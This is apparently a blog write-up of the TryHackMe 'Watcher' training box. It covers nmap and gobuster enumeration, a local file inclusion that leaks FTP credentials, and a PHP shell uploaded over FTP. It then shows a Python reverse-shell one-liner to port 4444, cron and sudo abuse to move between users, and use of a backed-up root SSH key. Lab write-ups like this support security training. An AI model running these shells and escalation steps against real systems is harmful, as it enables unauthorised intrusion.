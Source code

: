 ```yaml
---
title: "Tryhackme: Watcher"
date: 2023-05-01T17:27:49+05:30
description: "watcher solution"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocFolding: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- 
series:
- tryhackme
categories:
- writeup
- boxes
image:
---
```


Nmap scan:
```
# Nmap 7.80 scan initiated Wed Apr 26 23:09:33 2023 as: nmap -sV -sC -oA nmap/nmap 10.10.54.168
Nmap scan report for 10.10.54.168
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 26 23:09:58 2023 -- 1 IP address (1 host up) scanned in 24.59 seconds
```
Do gobuster for files and check robots.txt for the files.
```
gobuster dir -u http://10.10.54.168 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```

Local file inclusion to get the ftp user `ftpuser:givemefiles777`:
```
http://10.10.54.168/post.php?post=secret_file_do_not_read.txt
```
now that you get the ftp user's creds use those to login and get `flag_2.txt`
After that see that you can write to `files` directory and upload `shell.php` file so that you can setup revershell.

```
http://10.10.61.151/post.php?post=/home/ftpuser/ftp/files/shell.php
```

`cd home && ls` found users:
- ftpuser
- mat
- toby
- will

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
cp -r /home/mat/ /tmp/mat/
```


```
find / -name "flag_3.txt"
```

Test for crontabs
```
www-data@watcher:/$ crontab -l
no crontab for www-data
```

```
www-data@watcher:/home/mat/scripts$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```


```
www-data@watcher:/home/mat$ cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

```
www-data@watcher:/home/toby$ cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

```
www-data@watcher:/home/toby/jobs$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

```
www-data@watcher:/home/mat$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```


Use FTP on `/home/mat` and put `cow.jpg` to the ftp server this copies the files from mat to ftp user.

Also we have execute permissions on `/home/toby/jobs/cow.sh`

```
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```
Set the following reverse shell to escalate as mat using reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0", 4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

now as mat can edit the `cmd.py` file we can add a shell in the file to run bash as `will`

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

finally we can read the `/opt/backups/key.b64` to get the ssh key for the root user.

```
chmod 700 ~/.ssh/watcher.pub 
ssh -i ~/.ssh/watcher.pub root@ip
```

